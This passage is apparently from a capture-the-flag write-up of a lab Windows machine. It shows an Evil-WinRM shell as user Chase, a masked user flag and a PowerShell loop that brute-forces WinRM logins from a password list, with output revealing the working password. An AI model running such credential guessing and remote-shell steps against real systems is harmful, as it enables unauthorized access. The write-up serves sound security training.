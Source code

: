     Info: Starting Evil-WinRM shell v1.6

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Chase\Documents>



Note, with `evil-winrm`, I give it a scripts directory and an exes
directory.

And I can grab `user.txt`:



    *Evil-WinRM* PS C:\Users\Chase\desktop> cat user.txt
    a127daef************************



### Script It

That was a fair amount of guessing, and I am much happier if I can
script something, even if just in a console, to do the brute force for
me. Because getting better at PowerShell is on my to-do list, I decided
to try that.

I'll start a PowerShell docker container, using `-v` to mount my current
directory with my passwords list into `/opt`:



    root@kali# docker run -v $(pwd):/opt/heist -it quickbreach/powershell-ntlm
    PowerShell 6.1.1
    Copyright (c) Microsoft Corporation. All rights reserved.

    https://aka.ms/pscore6-docs
    Type 'help' to get help.

    PS />



Now, I'll write a loop to try each of the passwords I've collected with
WinRM with the new user, Chase:



    PS /opt/heist> foreach($pass in cat ./passwords) {  
    >>     $user = "chase"
    >>     $secstr = New-Object -TypeName System.Security.SecureString
    >>     $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    >>     $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
    >>     $res = New-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $cred -ErrorAction SilentlyContinue
    >>     if($res -ne $null) {
    >>         echo "[+] Found password: $pass"
    >>         Enter-PSSession $res
    >>     } else {
    >>         echo "[-] Password failed: $pass"
    >>     }
    >> }
    [-] Password failed: stealth1agent
    [-] Password failed: $uperP@ssword
    [+] Found password: Q4)sJu\Y8qz*A3?d
    [10.10.10.149]: PS C:\Users\Chase\Documents> whoami
    supportdesk\chase
